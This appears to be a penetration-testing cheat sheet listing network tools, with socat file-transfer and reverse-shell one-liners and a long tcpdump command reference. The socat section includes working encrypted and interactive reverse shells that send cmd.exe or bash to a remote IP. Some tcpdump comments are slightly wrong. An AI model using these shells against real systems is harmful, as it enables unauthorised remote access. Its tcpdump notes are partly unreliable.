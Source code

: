 # Practical tools
-----------------

### Tools list:

 * [Netcat](https://www.opennet.ru/man.shtml?topic=netcat&category=1&russian=2)
 * [Powercat](https://github.com/besimorhino/powercat)
 * [socat](https://linux.die.net/man/1/socat)
 * [wireshark](https://www.wireshark.org/)
 * [tcpdump](https://www.tcpdump.org/manpages/tcpdump.1.html)
 * [ngrep](https://linux.die.net/man/8/ngrep)

Netcat cheatsheet is on another page. Also remember to make connections fully interactive
by using `pty` python module and `stty` or by some other means like using socat/ssh. 
[Powercat](https://github.com/besimorhino/powercat) is very similar to netcat.

### Socat reference:

 * File transfer:  
   `socat TCP4-LISTEN:PORT,fork file:INFILE` on server  
   `socat TCP4:IP:PORT file:OUTFILE,create` on client
 * Encrypted reverse shell:  
   `openssl req -newkey rsa:2048 -nodes -keyout KEYFILE -x509 -days 365 -out CERTFILE` to generate keypair  
   `cat KEYFILE CERTFILE > PEMFILE` to make PEM out of this  
   `socat OPENSSL-LISTEN:PORT,verify=0,cert=PEMFILE STDOUT` establish listener  
   `socat OPENSSL:IP:PORT,verify=0 exec:cmd.exe,pipes` send shell (Windows)  
 * Interactive socat shell:  
   `socat file:'tty',raw,echo=0 TCP-LISTEN:PORT` establish listener  
   `socat EXEC:'bash -li',pty,stderr,setsid,sigint,sane TCP:IP:PORT` send shell  

### tcpdump
```bash
tcpdump port 5060 # capture on port
tcpdump port 5060 or port 5061 # capture on multiple ports
tcpdump portrange 5060-5070 # capture traffic on range of ports
tcpdump host 192.168.1.1 # capture from/to host
tcpdump -any net 192.168.1.0/24 # capture from network
tcpdump -D # show ifaces
tcpdump -i any # capture on all ifaces
tcpdump -i eth0 -c 10 # capture first 10 packets on eth0, then exit
tcpdump -i eth0 -A # capture on eth0, print in ASCII
tcpdump -i eth1 -XX # capture on eth0, print in both HEX ad ASCII with ethernet header
tcpdump -i eth0 -w capture.txt # output to capture.txt
tcpdump -r file.txt # read and analyze capture from file.txt
tcpdump -n -i eth0 # do not resolve domain names
tcpdump -nn -i eth0 # do not resolve domain names or port names
tcpdump -i eth0 -s 100 # capture 100-bytes chunks only, set 0 for unlimited size
tcpdump -i eth0 -t # capture on eth0, print human-readable timestamps
tcpdump -i eth0 -c 10 -w file.pcap tcp # capture TCP packets only
tcpdump http # filter traffic based on a port number for service
tcpdump -S http # show entire packet
tcpdump -d file.pcap # display pcap in human readable form
tcpdump -I eth0 # set iface to monitor mode
tcpdump -L # display data link types for iface[s]
```
Protocols: `ether`, `fddi`, `icmp`, `ip`, `ip6`, `ppp`, `radio`, `rarp`, `slip`, `tcp`, `udp`, `wlan`.
